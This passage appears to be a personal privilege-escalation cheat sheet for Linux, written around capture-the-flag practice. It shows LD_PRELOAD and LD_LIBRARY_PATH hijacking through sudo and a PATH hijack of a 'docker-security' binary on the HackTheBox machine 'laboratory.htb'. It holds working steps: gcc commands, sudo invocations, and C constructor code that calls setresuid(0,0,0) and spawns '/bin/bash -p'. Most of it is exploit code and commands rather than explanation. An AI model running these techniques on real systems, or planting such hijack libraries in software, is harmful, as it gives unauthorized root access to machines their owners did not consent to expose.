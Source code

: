 3. In command type:
`gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
4. In command type:
`sudo LD_PRELOAD=/tmp/x.so apache2`
BOOM....!

>If the **env_reset** opriton is set, sudo will run programs in a new, minimal environment
>If the **env_keep** option is set, sudo can be used to keep certain environment variables from the user's environment.

**When it wont work?**
When the real user ID is different from the effective user ID.
sudo must be configured to preserve the LD_PRELOAD environment variable using the env_keep option.

#### LD_LIBRARY_PATH
This is the environment variable contains a set of directories where shared librabires are searched for first.
The **ldd** command can be used to print the shared libraries used by a program.
`ldd /usr/sbin/apache2`

As in PATH escalation we can create the file with the same name and set the LD_LIBRARY_PATH to malicious file ka path just like we do in PATH setting escalation  of absent absolute path.

*shell code x.c*
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Compile: `gcc -o libcrypt.so.1 -shared -fPIC x.c`
Set variable being in the same directory: `sudo LD_LIBRARY_PATH=. apache2`
BOOM!!
 
# Path Escalation
Real scenario in laboratory.htb
Found a vulnerable `docker-security` binary to path privilage escalation.
So i ltraced the application for the calls:
![](https://i.imgur.com/fI3if3X.png)
So as we can see this application calling chmod to get some permissions so this is the vulnerablility 
we will forge a new binary of chmod and then change the paths
![](https://i.imgur.com/jYctnis.png)

so here i come in tmp dir and then i made the chmod binary and then set the new path
